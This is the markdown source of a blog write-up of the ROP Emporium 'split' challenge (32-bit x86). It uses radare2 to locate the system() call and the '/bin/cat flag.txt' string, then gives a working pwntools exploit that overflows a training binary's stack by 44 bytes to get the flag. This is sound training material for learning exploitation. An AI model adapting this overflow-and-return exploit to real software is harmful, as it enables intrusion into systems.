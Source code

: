 ```yaml
---
layout: post
title:  "ROP Emporium split Writeup (x86)"
date:   2024-06-01 13:15:45 -0400
categories: rop-emporium challenge-2
tags: rop-emporium split x86 writeup buffer-overflow rop reverse-engineering 32-bit
---
```

## Introduction
[ROP Emporium](https://ropemporium.com/index.html){:target="_blank"}{:rel="noopener noreferrer"}
provides a series of challenges to learn and practice
Return Oriented Programming (ROP). This is the
[second challenge](https://ropemporium.com/challenge/split.html){:target="_blank"}{:rel="noopener noreferrer"}
of eight.

> This is what a hint will look like!
{: .prompt-tip }

### Goal
According to the
[challenge page](https://ropemporium.com/challenge/split.html){:target="_blank"}{:rel="noopener noreferrer"}
our goal is to call `system` with the argument `/bin/cat flag.txt`.
This string is also present in the binary!

### x86 Calling Convention
We know from the first challenge we need to set the
instruction pointer to a function address in order to
call that function. But how do we pass arguments to
those functions?

In `x86`, we pass each argument onto the stack. This is
easy since we already control the stack! There are other
[`x86` calling conventions](https://en.wikipedia.org/wiki/X86_calling_conventions){:target="_blank"}{:rel="noopener noreferrer"}
but passing arguments is all we need to know for
our purposes

## Exploit Crafting
The offset for `x86` challenges will be `44 bytes`. If
you want to know how to get this value see the
[ret2win writeup]({% post_url 2024-05-31-rop-emporium-ret2win-x86 %}){:target="_blank"}{:rel="noopener noreferrer"}

### Function Address
> Is there an address where `system()` is called?
{: .prompt-tip }

Using `radare2` we can analyze a binary by
running `aaa`. To list functions with their
addresses we can run `afl`
![ret2win-addr](/images/split/x86-addr.png)

Let's investigate `usefulFunction`. We can view
the assembly with the following commands

```
s sym.usefulFunction
V
p
```

![useful-asm](/images/split/x86-useful-asm.png)

This function seems to `call` the `system()` function
with the argument `/bin/ls`. We want to change the
argument but let's take note of the `call` address
`0x0804861a`

### String Address
> The string `/bin/cat flag.txt` exists in the binary
{: .prompt-tip }
Using `radare2` again we can search for case insensitive
strings with the `/i` command. So to find the address
of `/bin/cat flag.txt` we run

```
/i /bin/cat flag.txt
```
![cat-addr](/images/split/x86-cat-addr.png)

Awesome the address of the string is `0x0804a030`

## Exploit
Now we have everything we need to build the exploit
```python
#!/bin/python3
from pwn import *

# useful addresses
str_addr = 0x0804a030
sys_addr = 0x0804861a

# create payload
payload = b'A' * 44
# call sys
payload += p32(sys_addr)
# set arg1
payload += p32(str_addr)

# send payload + receive flag
io = process('./split32')
io.recv()
io.sendline(payload)
print(io.recvline())
success(io.recvline())
```
![flag](/images/split/x86-flag.png)

## Conclusion
This challenge takes things a step further than
just calling an arbitrary function by introducting the 
ability to set arbitrary arguments for that function.


[Previous Challenge (ret2win)]({% post_url 2024-05-31-rop-emporium-ret2win-x86 %}){:target="_blank"}{:rel="noopener noreferrer"}

[Next Challenge (callme)]({% post_url 2024-06-02-rop-emporium-callme-x86 %}){:target="_blank"}{:rel="noopener noreferrer"}

[split x64]({% post_url 2024-06-01-rop-emporium-split-x64%}){:target="_blank"}{:rel="noopener noreferrer"}
